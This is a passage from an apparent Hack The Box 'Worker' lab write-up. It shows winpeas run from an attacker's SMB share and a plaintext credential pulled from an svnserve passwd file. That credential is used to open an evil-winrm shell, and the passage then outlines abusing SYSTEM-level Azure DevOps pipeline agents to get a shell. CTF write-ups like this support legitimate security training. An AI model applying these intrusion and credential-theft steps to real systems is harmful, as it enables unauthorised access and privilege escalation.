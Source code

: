 Running winpeas (`\\10.10.16.6\\share\winpeas.exe` as defaultapppool), we find that theres a W: drive and that there is a user directory for robisl. Looking into the files of the W: directory, one that sticks out is in the W:\svnrepos\www\conf directory is named passwd. Reading it gives a bunch of credential pairs, but we see there is a pair for robisl.

```
c:\windows\system32\inetsrv> dir C:\Users
 Volume in drive C has no label.
 Volume Serial Number is 32D6-9041

 Directory of C:\Users

2020-07-07  16:53    <DIR>          .
2020-07-07  16:53    <DIR>          ..
2020-03-28  14:59    <DIR>          .NET v4.5
2020-03-28  14:59    <DIR>          .NET v4.5 Classic
2020-08-17  23:33    <DIR>          Administrator
2020-03-28  14:01    <DIR>          Public
2020-07-22  00:11    <DIR>          restorer
2020-07-08  18:22    <DIR>          robisl 	<------------------------------------a User
               0 File(s)              0 bytes
               8 Dir(s)  10246832128 bytes free
               
c:\windows\system32\inetsrv>type W:\svnrepos\www\conf\passwd

### This file is an example password file for svnserve.
### Its format is similar to that of svnserve.conf. As shown in the
### example below it contains one section labelled [users].
### The name and password for each user follow, one account per line.
                                                   
[users]
..alot of pairs
robisl = wolves11
```

These credentials work for both WinRM and the DevOps website.

```
┌──(root💀kali)-[/home/kali/HackTheBox/Worker]
└─# vil-winrm -i worker.htb -u 'robisl' -p 'wolves11'

Evil-WinRM shell v3.3
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\robisl\Documents>
```

Robisl doesn't seem to have much more for us on the machine itself (even less considering we don't have SeImpersonate), but maybe the DevOps service has higher privileges (logging into the website as robisl and checking the "Agents "under the "Project Settings" confirms that Azure is our way to System). While the website itself has low privileges, as we saw earlier, Azure has something called Pipelines and Agents. Pipelines are meant to build and test code, but they have the potential to execute code too. Agents are what help them execute code and the website configurations showed us they are executed with System privileges. We will set up our listener, create a powershell script to call on our payload again, and then make and execute a pipeline so we can get a shell.
